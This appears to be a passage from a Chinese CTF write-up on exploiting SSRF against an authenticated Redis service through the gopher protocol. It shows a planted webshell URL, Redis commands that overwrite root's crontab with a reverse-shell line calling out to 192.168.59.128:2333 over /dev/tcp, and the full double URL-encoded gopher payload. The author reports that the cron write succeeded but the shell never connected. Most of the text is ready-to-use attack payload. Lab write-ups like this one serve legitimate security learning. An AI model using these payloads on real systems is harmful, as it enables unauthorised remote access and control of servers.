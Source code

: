 ![image-20210923211057151](https://gitee.com/taochiyu/blogimage/raw/master/img/20210923211057.png)

成功！

![image-20210923211436650](https://gitee.com/taochiyu/blogimage/raw/master/img/20210923211436.png)

```
192.168.59.129/shell1111.php
```

![image-20210923211530197](https://gitee.com/taochiyu/blogimage/raw/master/img/20210923211530.png)



##### 反弹shell!

```
auth welcometowangdingbeissrfme6379
flushall
config set dir /var/spool/cron/
config set dbfilename root
set x "\n* * * * * /bin/bash -i >& /dev/tcp/192.168.59.128/2333 0>&1\n"
save
quit
```

**注意 & 变成%26**

或者直接用bp 全部都url编码：

![image-20210924100725971](https://gitee.com/taochiyu/blogimage/raw/master/img/20210924100726.png)

**替换%0a %0d%0a**  然后二次编码！

```
gopher://192.168.59.129:6380/_%2561%2575%2574%2568%2520%2577%2565%256c%2563%256f%256d%2565%2574%256f%2577%2561%256e%2567%2564%2569%256e%2567%2562%2565%2569%2573%2573%2572%2566%256d%2565%2536%2533%2537%2539%250d%250a%2566%256c%2575%2573%2568%2561%256c%256c%250d%250a%2563%256f%256e%2566%2569%2567%2520%2573%2565%2574%2520%2564%2569%2572%2520%252f%2576%2561%2572%252f%2573%2570%256f%256f%256c%252f%2563%2572%256f%256e%252f%250d%250a%2563%256f%256e%2566%2569%2567%2520%2573%2565%2574%2520%2564%2562%2566%2569%256c%2565%256e%2561%256d%2565%2520%2572%256f%256f%2574%250d%250a%2573%2565%2574%2520%2578%2520%2522%255c%256e%252a%2520%252a%2520%252a%2520%252a%2520%252a%2520%252f%2562%2569%256e%252f%2562%2561%2573%2568%2520%252d%2569%2520%253e%2526%2520%252f%2564%2565%2576%252f%2574%2563%2570%252f%2531%2539%2532%252e%2531%2536%2538%252e%2535%2539%252e%2531%2532%2538%252f%2532%2533%2533%2533%2520%2530%253e%2526%2531%255c%256e%2522%250d%250a%2573%2561%2576%2565%250d%250a%2571%2575%2569%2574%250d%250a
```



![image-20210924100824344](https://gitee.com/taochiyu/blogimage/raw/master/img/20210924100824.png)

其实写入成功了！

![image-20210924101018093](https://gitee.com/taochiyu/blogimage/raw/master/img/20210924101018.png)



写是写入成功了！但是没弹成功！

